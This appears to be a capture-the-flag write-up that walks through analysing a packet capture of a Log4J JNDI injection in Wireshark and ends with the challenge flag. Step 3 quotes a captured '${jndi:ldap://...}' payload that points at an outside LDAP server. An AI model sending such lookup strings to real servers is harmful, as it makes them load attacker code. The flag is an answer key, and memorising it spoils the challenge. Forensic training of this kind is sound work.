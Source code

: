 # Log4jVulnExtra | Difficulty: Hard

## Requirements:

- Anaylzing PCAP file using software like Wireshark
- Base understanding about Log4J CVE-2021-45105 and how attacks are done

---

## Steps:

1.  Open `packets.pcap` using any packet analysis software you want. I will be using `Wireshark`.
2.  Identify that a potential Log4J attack might have occured.

    You can determine this by searching for any packets using the `LDAP` protocol or whether any IPs contains the word `jndi` in them.

    ![LDAP search](Guide-Media/2022-05-16%2019-12-32.png)
    ![jdni search](Guide-Media/2022-05-16%2019-13-00.png)

3.  Examine the suspicious HTTP request.

    From our search for whether any IP contains jndi, we noticed a suspicious packet.\
    Let us examine this packet further.

    You can right-click on the packet in `Wireshark` and select the option: `Follow -> HTTP Stream`.

    ![Follow stream](Guide-Media/2022-05-16%2019-14-58.png)

    From this we can extract only one piece of information:

    ```
    ${jndi:ldap://52.221.178.168:389/Basic/Command/Base64/V2hhdCBlbHNlIGNvdWxkIHRoZXJlIGJlPw==}
    ```

    However after decoding this as `base64`, we realize it leads to nothing:

    ```
    V2hhdCBlbHNlIGNvdWxkIHRoZXJlIGJlPw==
    ```

    Using any decoder you wish results in this:

    ```
    What else could there be?
    ```

    Which does not give us anything.

4.  After more digging we notice a series of HTTP packets.

    ![Http Packets](Guide-Media/2022-05-16%2019-19-13.png)

    It seems that the LDAP request was redirected to a HTTP request which returned an object, `Evil.class`.

    We can export this object straight from `Wireshark`.\
    Go to `File -> Export Objects -> HTTP...`:

    ![Export Evil.class](Guide-Media/2022-05-16%2019-21-52.png)

5.  Use a `Java Decompiler` to decompile and view the contents of `Evil.class`.

    I will be using an online decompiler which is found [here](http://www.javadecompilers.com/).

    After successfully decompiling the Java class, here is our result:

    ![Evil.class decompiled](Guide-Media/2022-05-16%2019-25-04.png)

    Success! We have found our flag.

        flag@java_class_decompiled
